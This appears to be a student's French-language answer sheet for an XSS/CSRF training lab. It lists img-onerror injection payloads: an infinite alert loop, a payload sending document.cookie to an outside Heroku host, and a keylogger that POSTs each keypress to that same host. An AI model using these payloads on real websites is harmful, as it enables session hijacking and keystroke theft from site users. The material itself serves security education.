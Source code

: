 Partie 1 -
Level 1
https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%27dzqjidqi.jpg%27%20onerror=alert(%27test%27)%3E%3C/img%3E

Level 2
1 -
<img src='dqd.jpg' onerror= alert('xss') ></img> dans title

2 -
Le script ne fonctionne ne pas car il a été correctement géré coté serveur.

3 -
Les données sont récupérés grâce à un appel de l'API Fetch en JavaScript.

4 -
<img src='zzz.jpg' onerror=while(true)alert('xss') ></img>

5 -
<img src='zzz.jpg' onerror="var addr = 'https://my-malicious-ws-maisonhaute.herokuapp.com/' + document.cookie; var imgTag = document.createElement('img') ; imgTag.setAttribute('src', addr); document.body.appendChild(imgTag);" ></img>

Level 3
1 - 
On peut ajouter une balise script en rajoutant des majuscules à certaine lettre de la balise tel que
2 -
Avec la technique précédente, la balise est bien ajouter mais le code ne s'éxecute pas. Il doit y avoir une autre solution.
Pour le keylogger, il suffirait d'écrire ça dans la balise : 
document.addEventListener('keypress', (event) => {
	fetch('https://my-malicious-ws-maisonhaute.herokuapp.com/', {
		method: 'POST',
		headers: { 'Content-Type': 'application/json' },
		body: JSON.stringify({keypressed: String.fromCharCode( event.which )})
	})
});


Partie 2
1 - J'ai pas d'amis :p
2 - J'ai pas d'amis :p
3 - J'ai pas d'amis :p
